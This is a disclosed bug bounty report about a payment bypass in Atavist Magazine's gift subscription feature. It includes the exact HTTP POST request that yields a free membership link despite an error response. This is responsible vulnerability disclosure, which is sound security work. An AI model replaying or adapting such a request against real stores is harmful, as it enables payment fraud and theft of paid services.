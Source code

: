 # Can buy Atavist Magazine subscription for free

## Report Details
- **Report ID**: 951230
- **URL**: https://hackerone.com/reports/951230
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-04T20:24:21.970Z
- **Disclosed**: 2020-11-18T14:21:37.932Z

## Reporter
- **Username**: bugra
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:
Hi team
If you go to https://magazine.atavist.com/ and scroll down. You will see membership price is $25, but I found a way to buy this subscription for free via Gift feature.
When you send gift request before adding any credit card to your account you will see this response :

{F936531}

However, if you check the gift recipient's email you will see the Gift email that contains the gift link.

{F936533}

## Steps To Reproduce:

  1. Just send this request (change `YOUR_EMAIL`, `YOUR_PASSWORD`, `RECIPIENT_EMAIL`, `gift_timestamp to current date, it was 2020-8-4 while reporting this`)  :

```http
POST /api/v2/store/purchase.php HTTP/1.1
Host: magazine.atavist.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 204
Origin: https://magazine.atavist.com
DNT: 1
Connection: close
Referer: https://magazine.atavist.com/

email=YOUR_EMAIL&password=YOUR_PASSWORD&product_id=com.theatavist.atavist.subscription.membership&gift_timestamp=2020-8-4&gift_recipient=RECIPIENT_EMAIL&gift_message=test&gift_gifter=test
```

You will see `{"error":"invalid_request_error","error_description":"The customer must have an active payment source attached."}` in response but if you check the recipient's email, you will see the gift link.

## Impact

Able to buy magazine membership for free

Thanks,
Bugra

## Attachments
- request.PNG
- mail.PNG
